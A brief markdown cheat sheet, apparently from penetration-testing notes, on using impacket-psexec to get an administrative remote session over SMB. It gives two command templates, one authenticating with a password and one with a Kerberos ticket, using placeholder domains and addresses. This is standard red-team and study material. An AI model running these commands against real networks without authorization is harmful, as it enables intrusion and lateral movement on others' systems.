 # Impacket-psexec

## This impacket module is used to gain administrative access over SMB.

## If the user has write permissions on the $ADMIN share, then the module uploads a malicious binary to it, then gives us a session.

#### 1) 

    impacket-psexec 'DOMAIN.COM/USERNAME:PASSWORD'@IP_ADDRESS -dc-ip DC_IP

#### 2) 

    impacket-psexec DOMAIN.COM/USERNAME@IP_ADDRESS -k -no-pass (Authenticate with kerberos ticket)
